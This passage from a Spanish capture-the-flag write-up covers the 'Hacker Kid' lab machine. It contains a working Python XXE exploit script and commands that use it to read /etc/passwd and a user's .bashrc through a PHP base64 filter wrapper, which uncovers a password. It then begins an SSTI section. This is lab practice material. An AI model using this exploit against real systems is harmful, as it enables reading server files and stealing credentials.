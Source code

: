 ```python
#!/usr/bin/python3
import sys, requests

print(f"Uso: {sys.argv[0]} Nombre del fichero (Tambien se aceptan Wrappers)")
file = sys.argv[1]

target = "http://hackerkid.blackhat.local/process.php" 
xml = f'<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [ <!ENTITY xxe SYSTEM "{file}" > ]><root><name>test</name><tel>test</tel><email>&xxe;</email><password>test</password></root>'

request=requests.post(target,data=xml)
print(request.text)
```

- Con la script creada, enumeramos `usuarios` de la máquina víctima:

```bash
$python3 exploitXXE.py /etc/passwd | grep "sh$"
```

```js
root:x:0:0:root:/root:/bin/bash
saket:x:1000:1000:Ubuntu,,,:/home/saket:/bin/bash
```

- Vemos al usuario `"saket"`, verificamos su archivo ".bashrc" en búsqueda de información útil:

```bash
$python3 exploitXXE.py /home/saket/.bashrc
```

- No nos muestra nada, intentamos con el `Wrapper` para codificar el archivo en base64:

```bash
$python3 exploitXXE.py php://filter/convert.base64-encode/resource=/home/saket/.bashrc
```

- Y sí que nos muestra el contenido en base64, lo decodeamos y analizamos el archivo:

```bash
$echo -n "contenido en base64" l base64 -d; echo
```

- Al final del contenido podemos ver una posible contraseña.

<br><br>
# SSTI (Python - Tornado):

- Recordemos el login de la página que encontramos verificando el puerto 9999, probamos entrar como el usuario "saket" y la contraseña que encontramos.

- Al acceder podemos ver el siguiente texto:

```js
Tell me your name buddy

How can i get to know who are you ??
```
